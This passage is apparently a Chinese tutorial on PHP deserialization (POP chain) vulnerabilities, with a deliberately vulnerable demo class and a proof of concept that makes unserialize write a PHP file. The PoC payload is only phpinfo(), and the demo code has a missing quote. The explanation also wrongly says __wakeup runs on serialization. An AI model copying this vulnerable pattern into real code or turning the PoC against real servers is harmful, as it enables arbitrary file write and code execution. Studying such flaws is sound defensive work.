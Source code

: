 文件操作：

``` 
file_put_contents()
file_get_contents()
unlink()
```

如果在跟进程序过程中发现这些函数就要打起精神,一旦这些函数的参数我们能够控制,就有可能出现高危漏洞.

2.POP 链 demo 示例

``` 
<?php
class popdemo
{
    private $data = "demo\n";
    private $filename = './demo';
    public function __wakeup()
    {
        // TODO: Implement __wakeup() method.
        $this->save($this->filename);
    }
    public function save($filename)
    {
        file_put_contents($filename, $this->data);
    }
}
unserialize(file_get_contents('./serialized.txt));
?>
```

这是一个很简单的示例代码，且这个代码存在反序列化漏洞。该文件还定义了一个 popdemo 类,并且该类实现了 __wakeup 函数,然后在该函数中又调用了 save 函数，且参数对象是文件名。跟进 save 函数，我们看到在该函数中通过调用 file_put_contents 函数，这个函数的 $filename 和 data 属性值是从 save 函数中传出来的，并且创建了一个文件。由于 __wakeup() 函数在序列化时自动调用，这里还定义了一个保存文件的函数，在这个反序列化过程中对象的属性值可控。于是这里就存在一个任意文件写入任意文件内容的反序列化漏洞了。这就是所谓的 POP。就是关注整个函数的调用过程中参数的传递情况,找到可利用的点,这和一般的 Web 漏洞没什么区别,只是可控制的值有直接传递给程序的参数转变为了对象中的属性值。

利用 poc：

``` 
<?php
class popdemo
{
    private $data = "<?php phpinfo();?>\n";
    private $filename = './poc.php';
    public function __wakeup()
    {
        // TODO: Implement __wakeup() method.
        $this->save($this->filename);
    }
    public function save($filename)
    {
        file_put_contents($filename, $this->data);
    }
}
$demo = new popdemo();
echo serialize($demo);
file_put_contents("./serialized.txt",serialize($demo));
?>
```
